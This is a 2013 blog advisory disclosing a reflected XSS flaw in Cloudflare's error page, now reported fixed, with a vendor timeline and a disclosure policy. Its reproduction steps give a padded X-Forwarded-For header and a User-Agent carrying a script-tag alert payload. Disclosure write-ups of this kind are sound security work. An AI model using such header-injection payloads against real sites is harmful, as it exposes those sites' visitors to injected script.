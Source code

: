```yaml
---
layout: post
title: "[DAHAX-2013-001] Cloudflare XSS Vulnerability"
date: '2013-08-14T15:00:00-07:00'
tags:
- DAHAX-2013-001
- DAHAX
- '2013'
- vulnerability
- notification
- cloudflare
- XSS
- Cross Site Scripting
- X-Forwarded-For
- User-Agent
tumblr_url: http://blog.devalias.net/post/58217238426/dahax-2013-001-cloudflare-xss-vulnerability
---
```

Reference Number: DAHAX-2013-001 (/dev/alias/hacks 2013-001)

Notification Timeline:

10/07/2013, Request# 38713 (https://support.cloudflare.com/anonymous_requests/new)
10/07/2013, Vendor looking into issue
16/07/2013, Updated vendor with new details (Length: 101 instead of 72)
16/07/2013, Vendor requested that I test again
No response from vendor
01/08/2013, Tested again, vulnerability fixed
22/08/2013, Posted details to full-disclosure
22/08/2013, Vendor confirmed issue has been fixed
Details Published: 14/08/2013 (http://blog.devalias.net)

What?

Reflected XSS (cross site scripting) attack
Where’s Affected?

Theoretically it seems that any page that uses cloudflare will be affected.

Eg: http://www.cloudflare.com/

How?

To bring up the vulnerable page

Set your X-Forwarded-For header to 72+ 101+ characters
Eg: X-Forwarded-For: AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDDDDDDDDDEEEEEEEEEEFFFFFFFFFFGGGGGGGGGGHH
Eg: 

X-Forwarded-For: AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDDDDDDDDDEEEEEEEEEEFFFFFFFFFFGGGGGGGGGGHHHHHHHHHHIIIIIIIIIIJJJJJJJJJJK

Load a site using cloudflare
You should end up on “DNS Points to Prohibited IP” page

To trigger the XSS

Set your User-Agent string to the XSS attack

Eg: 

User-Agent: USER-AGENT being tested for XSS..<script>alert(''Vulnerable to XSS via USER-AGENT header [Found by devalias.net]'')</script>

The whole attack

Ensure your X-Forwarded-For and User-Agent headers are configured as above
Navigate to a page using cloudflare
???
Profit!

Who?

Discovered by Glenn ’/dev/alias’ Grant (glenn@devalias.net)
Responsible Disclosure Notice

Following in the footsteps of Google’s vulnerability disclosure timeline, unless otherwise agreed to beforehand, I reserve the right to publicly announce the details of any discovered vulnerabilities 7 days post notification.

Google’s Rationale: “Seven days is an aggressive timeline and may be too short for some vendors to update their products, but it should be enough time to publish advice about possible mitigations, such as temporarily disabling a service, restricting access, or contacting the vendor for more information. As a result, after 7 days have elapsed without a patch or advisory, we will support researchers making details available so that users can take steps to protect themselves. By holding ourselves to the same standard, we hope to improve both the state of web security and the coordination of vulnerability management.” - Google
